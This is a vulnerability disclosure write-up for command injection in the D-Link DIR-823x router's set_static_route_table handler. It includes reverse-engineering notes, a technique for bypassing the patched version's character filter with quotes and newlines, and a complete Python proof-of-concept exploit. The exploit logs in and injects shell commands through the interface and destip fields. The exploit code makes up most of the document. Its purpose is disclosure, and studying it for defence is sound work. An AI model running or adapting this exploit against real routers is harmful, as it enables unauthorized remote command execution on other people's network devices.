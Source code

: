 # DIink-DIR-823x/goform/set_static_route_table command execution vulnerability

Vulnerability Vendor: D-Link Technology Co., Ltd.

Official Website: https://www.dlink.cn

Affected Device Type: Network Device

Affected Product: Dlink-DIR-823x

Affected Product Versions: DIR-823x 250416, 240802, 240126

Is This a Product Component Vulnerability: No

## **1. Vulnerability Overview**

The D-Link DIR-823x is a wireless router product from D-Link.

The D-Link DIR-823x suffers from a command execution vulnerability caused by insufficient validation of input parameters when processing environment variables in the file /usr/sbin/goahead. An attacker could exploit this vulnerability by constructing malicious requests and executing arbitrary commands on the system.

## **2. Vulnerability Details**

Router firmware download: [D-Link | Home Network](https://www.dlink.com.cn/home/product?id=3118)

Ida analyzed the binary file /usr/sbin/goahead, located set_static_route_table, and manually restored the symbol table.

![image-20250914122522472](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250914122522472.png)

First, the program receives seven parameters, the first of which is detection, but no detection string

![image-20250914122632113](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250914122632113.png)

Then it will enter the dangerous function, which can be bypassed. The patch is not complete.

![image-20250914122715979](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250914122715979.png)





First, there is a detection, but the detection is incomplete. It only detects the seven strings "()'{};`". Here, there is no detection for the two versions 240802 and 240126, so there is a command injection directly. The author analyzed 250416, which has a patch. We need to bypass it and use quotation mark splicing and \n to inject \"\n{cmd}\n\. In this way, the attack can bypass this detection.

 ![image-20250908200557880](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250908200557880.png)

Subsequent sub_412E7C will assign the string directly to the system for execution, where there is command injection, and here part has injection

![img](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/wps5.jpg) 

 ![image-20250914123304963](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250914123304963.png)

 POC

```
import requests
import logging
import argparse
import re
import hmac
import hashlib


logging.basicConfig(level=logging.DEBUG)


def extract_cookies_from_response(response):
    cookies = response.headers.get('Set-Cookie', '')
    sessionid = re.search(r'sessionid=([^;]+)', cookies)
    token = re.search(r'token=([^;]+)', cookies)
    sessionid = sessionid.group(1) if sessionid else None
    token = token.group(1) if token else None
    return sessionid, token

def send_get_login_page(session, host_ip):
    url = f"http://{host_ip}/login.html"

    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1"
    }

    response = session.get(url, headers=headers)
    
    if response.status_code == 200:
        sessionid, token = extract_cookies_from_response(response)
        return sessionid, token
    else:
        logging.error("Failed to get login page.")
        logging.error(f"Status code: {response.status_code}")
        logging.error(f"Response: {response.text}")
        return None, None

def hash_password(password, token):
    hashed = hmac.new(token.encode(), password.encode(), hashlib.sha256).hexdigest()
    return hashed

def send_login_request(session, host_ip, username, hashed_password, sessionid, token):
    url = f"http://{host_ip}/goform/login"
    
    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": f"http://{host_ip}",
        "Connection": "close",
        # "Referer": f"http://{host_ip}/login.html",
        "Cookie": f"sessionid={sessionid}; token={token}"
    }
    
    payload = {
        "username": username,
        "password": hashed_password,
        "token": token
    }
    
    response = session.post(url, headers=headers, data=payload)
    
    return response

def send_diag_traceroute_request(session, host_ip, sessionid, token):
    url = f"http://{host_ip}/goform/set_static_route_table"
    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": f"http://{host_ip}",
        "Connection": "close",
        # "Referer": f"http://{host_ip}/login.html",
        "Cookie": f"sessionid={sessionid}; token={token}"
    }
    
    payload = {
	"modmun": "-1",
	"interface": "\"\ntouch 1.txt\n\"",
	"destip": "\"\ntouch 2.txt\n\"",
	"netmask": "255.255.255.0",
	"gateway": "10.10.10.1",
	"metric": "1",
	"set_flag": "0",
        "token": token
    }

    

    response = session.post(url, headers=headers, data=payload)
    
    return response

def main():
    session = requests.session()

    parser = argparse.ArgumentParser(description='HTTP POST Request Example.')
    parser.add_argument('-H', '--host', metavar='host', default='192.168.1.1', help='Host IP address.')
    parser.add_argument('-u', '--username', metavar='Username', required=True, help='Login username.')
    parser.add_argument('-p', '--password', metavar='Password', required=True, help='Login password.')

    args = parser.parse_args()

    logging.info(f'Host IP: {args.host}')

    # Get login page
    sessionid, token = send_get_login_page(session, args.host)
    if sessionid and token:
        logging.info(f"GET login page request sent successfully. sessionid={sessionid}, token={token}")
        
        # Hash the password
        hashed_password = hash_password(args.password, token)
        
        # Send login request
        response = send_login_request(session, args.host, args.username, hashed_password, sessionid, token)
        if response.status_code == 200:
            logging.info("Login request sent successfully.")
            logging.debug(f"Response: {response.text}")
            
            # Extract updated sessionid and token from login response
            sessionid, token = extract_cookies_from_response(response)
            
            # Send LAN settings request
            response = send_diag_traceroute_request(session, args.host, sessionid, token)
            if response.status_code == 200:
                logging.info("LAN settings request sent successfully.")
                logging.debug(f"Response: {response.text}")
            else:
                logging.error("Failed to send LAN settings request.")
                logging.error(f"Status code: {response.status_code}")
                logging.error(f"Response: {response.text}")
        else:
            logging.error("Failed to send login request.")
            logging.error(f"Status code: {response.status_code}")
            logging.error(f"Response: {response.text}")
    else:
        logging.error("Failed to retrieve sessionid and token from login page.")

if __name__ == "__main__":
    main()
```

Successful execution





 

## 3. Impact of the Vulnerability

1. An attacker can exploit this vulnerability to execute remote commands.
2. An attacker can exploit this vulnerability to gain remote code execution.

## 4. Repair plan

1. Contact the relevant vendor to obtain security patches and promptly address vulnerabilities.
2. Contact the relevant security vendor to promptly update security blocking policies.
3. Temporarily perform a security check on interface parameters.

‍